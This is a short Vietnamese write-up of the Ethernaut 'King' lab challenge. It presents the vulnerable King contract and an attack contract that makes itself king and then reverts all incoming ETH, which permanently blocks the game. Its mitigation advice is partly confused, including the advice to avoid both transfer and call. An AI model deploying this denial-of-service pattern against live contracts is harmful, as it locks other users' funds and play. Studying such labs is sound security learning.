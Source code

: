 ### Kết luận
- Hàm transfer không được kiểm tra khả năng thực thi khi chuyển ETH đến biến `king`.
- Cách phòng tránh: Tránh sử dụng `transfer` hoặc `call`
- Thực hiện kiểm tra người nắm giữ vai trò mới.
- VD: `require(!isContract(msg.sender));`
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IKing{
    function changeKing(address _newKing) external;
}
contract KingAttack{
    IKing public level;
    constructor(address levelAddress){
        level = IKing(levelAddress);
    }
    function attack() external payable{
        require(msg.value >0, "Must send positive ETH");
        (bool success, ) = payable(address(level)).call{value: msg.value}(""); // ("") là chuỗi dữ liệu rỗng
        require(success, "Call failed!");
    }
    receive() external payable {
        revert("Attack contract cannot receive ETH!"); // Chặn mọi giao dịch gửi ETH
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
